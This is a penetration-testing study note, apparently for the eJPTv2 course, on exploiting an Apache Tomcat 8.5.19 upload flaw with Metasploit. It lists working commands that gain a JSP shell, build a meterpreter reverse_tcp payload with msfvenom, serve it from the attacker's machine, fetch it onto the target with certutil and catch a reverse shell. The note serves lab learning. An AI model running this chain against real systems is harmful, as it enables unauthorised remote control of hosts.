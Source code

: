 ```yaml
---
up: "[[4. ARCHIVES/eJPTv2/Host & Network Penetration Testing/The Metasploit Framework/Windows Exploitation/Windows Exploitation]]"
---
```


# Exploiting Apache Tomcat Server

- Tomcat server is a popular free and open source Java servlet web server
- It is used to build and host dynamic websites and web apps based on Java
- Apache Tomcat uses HTTP and runs on port 8080 by default

- Standard Apache HTTP web server is used to host static or dynamic web apps typically developed in PHP
- Apache Tomcat web server is primarily used to host dynamic websites or web applications developed in Java
- Apache Tomcat v8.5.19 is vulnerable to a remote code execution vulnerability
- MSF has a prebuilt module for this vuln

## Demonstration

```bash
> db_nmap -sS -sV -O <ip>
# see services
> services
# exploit upload vuln
> use exploit/multi/http/tomcat_jsp_upload_bypass
> infos
> set payload java/jsp_shell_bind_tcp
> set shell cmd
> run
# obtain meterpreter session
>ctrl+z
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<my_ip> LPORT=1234 -f exe > payload.exe
$ sudo python -m http.server 80
# on msf
> sessions 1
>certutil -urlcache -f http://<my_ip>/payload.exe payload.exe
>dir
# set handler
> use multi/handler
> set payload windows/meterpreter/reverse_tcp
> set LHOST <my_ip>
> set LPORT 1234
> run
# execute payload
>.\payload.exe
```

